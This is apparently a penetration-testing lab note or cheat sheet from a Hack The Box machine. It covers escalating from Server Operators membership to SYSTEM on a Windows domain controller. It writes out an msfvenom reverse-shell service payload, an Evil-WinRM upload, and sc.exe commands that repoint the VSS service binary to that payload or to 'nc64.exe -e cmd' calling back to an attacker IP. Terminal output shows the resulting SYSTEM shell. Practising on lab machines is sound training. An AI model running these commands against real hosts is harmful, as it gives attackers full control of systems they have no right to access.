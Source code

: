 
our user is a member of the Server Operators group (only available on DCs)

list services:
`sc.exe query`
`Get-WmiObject -Class Win32_Service | Select-Object Name, State, StartMode, PathName`

create service executable running a shell using msfvenom:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.2 LPORT=443 -f exe-service -o revsh-win64-service-10.10.15.2-443.exe`

upload the service executable:
`upload service.exe`

listen on the port:
`nc -lnvp 443`

change the service path: (vss might not exist on your machine, use something we listed)
`sc.exe config VSS binpath="C:\users\svc-printer\desktop\revsh-win64-service-10.10.15.2-443.exe"`

or use netcat:
`sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"`

restart the service:
`Restart-Service -Name "VSS" -Force`

`whoami` - should be system

### Examples

```sh
┌──(fixit42㉿kali)-[~/shells]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.2 LPORT=443 -f exe-service -o revsh-win64-service-10.10.15.2-443.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: revsh-win64-service-10.10.15.2-443.exe
```

```sh
*Evil-WinRM* PS C:\users\svc-printer\desktop> upload shells/revsh-win64-service-10.10.15.2-443.exe

Info: Uploading /home/fixit42/shells/revsh-win64-service-10.10.15.2-443.exe to C:\users\svc-printer\desktop\revsh-win64-service-10.10.15.2-443.exe                        


Data: 64852 bytes of 64852 bytes copied

Info: Upload successful!
```

```sh
┌──(fixit42㉿kali)-[~/boxes/htb/return]
└─$ nc -nvlp 443                                                                    
listening on [any] 443 ...

```

```sh
*Evil-WinRM* PS C:\users\svc-printer\desktop> sc.exe config VSS binpath="C:\users\svc-printer\desktop\revsh-win64-service-10.10.15.2-443.exe"
[SC] ChangeServiceConfig SUCCESS
```

```sh
┌──(fixit42㉿kali)-[~/boxes/htb/return]
└─$ nc -nvlp 443                                                                    
listening on [any] 443 ...
connect to [10.10.15.2] from (UNKNOWN) [10.129.170.211] 62158
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

